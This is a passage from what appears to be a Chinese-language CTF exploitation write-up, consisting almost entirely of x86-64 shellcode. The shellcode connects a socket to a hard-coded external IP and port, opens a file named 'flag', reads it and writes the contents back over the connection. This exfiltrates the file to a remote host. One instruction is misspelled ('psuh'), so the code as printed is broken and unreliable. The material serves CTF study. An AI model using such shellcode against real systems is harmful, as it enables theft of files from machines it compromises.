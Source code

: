 至此所有准备工作完成，我们接下来就是执行rep指令并且布置shellcode了

shellcode如下：

```assembly
#socket(2,1,0)
push 2
pop rdi
push 1
pop rsi
psuh 0
pop rdx
push 41
pop rax
syscall

#connect(0,socket_struct_addr,0x8)
push 0
pop rdi
mov rcx,0x13589c5282230002 #如果打本地的话，这里改成0x0100007fe8030002 对应的ip和端口为127.0.0.1 1000
#push没法直接压入0x13589c5282230002，只能通过寄存器中转
push rcx 
mov rsi,rsp
push 0x10
pop rdx
push 42
pop rax
syscall

#open(flag_addr,0)
push 0x67616c66
mov rdi,rsp#本来这里为了更短应该使用push rsp;pop rdi的，但是不知道为啥，这回程序这么写就会直接崩溃，不过好在溢出卡的不死，也不差这几个字节
push 0
pop rsi
push 2
pop rax
syscall

#read(1,0x601500,0x50)
push 1
pop rdi
mov rsi,0x601500
push 0x50
pop rdx
push 0
pop rax
syscall

#write(0,0x601500,0x50)
push 0
pop rdi
mov rsi,0x601500
push 0x50
pop rdx
push 1
pop rax
syscall
```
